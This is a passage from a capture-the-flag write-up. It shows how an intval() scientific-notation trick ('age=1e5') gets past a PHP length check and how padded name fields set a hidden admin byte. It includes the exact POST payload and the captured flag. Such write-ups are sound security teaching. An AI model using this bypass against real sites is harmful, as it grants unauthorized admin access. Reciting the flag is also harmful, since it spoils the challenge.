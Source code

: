 After looking hours for multiple function, 

> $age = intval($_POST["age"]);
 
This intval() function took my attention. We are allowed to set age number up to 3 characters and these number needed to be numeric.
```
<?php
if (!is_numeric($_POST["age"])) {
                $errors[] = 'Age entered is invalid';
            }
            if (strlen($_POST["age"]) > 3) {
                $errors[] = 'Age entered is too long';
            }
            $age = intval($_POST["age"]);
?>
```
I read the documentation abot intval() function and came to know that we can use this  scientific notation 'e' to get longer number  with 3 characters.
```
<?php
echo intval(1e3);                        //1000
echo intval(1e4);                       //10000
echo intval(1e5);                       // 100000 
echo intval(1e10);                    //  10000000000 
?>
```
Now, it's time to construct our final payload to get flag.when we set age number to "1e5" the server calculate the value and response with 100000.
So the final input payload become like this.

```
POST /signup-manager/ HTTP/1.1
Host: hackyholidays.h1ctf.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:84.0) Gecko/20100101 Firefox/84.0
.....
.....

action=signup&username=LMAO&password=12345&age=1e5&firstname=XXXXXXXXXXXXXXX&lastname=YYYYYYYYYYYYYYY
```
Our last name field become the last character "Y" because the following code stripped the string if it was more than 113 characters.

>$line = substr($line,0,113);

And now when this function check the last character of our string it will return TRUE .

>'admin' => ((substr($user_str, 112, 1) === 'Y') ? true : false)

Finally, we got admin access and found the flag.

{F1131253}

>>Flag 10 -: flag{99309f0f-1752-44a5-af1e-a03e4150757d}

**Day 11 - Grinch Recon Server**
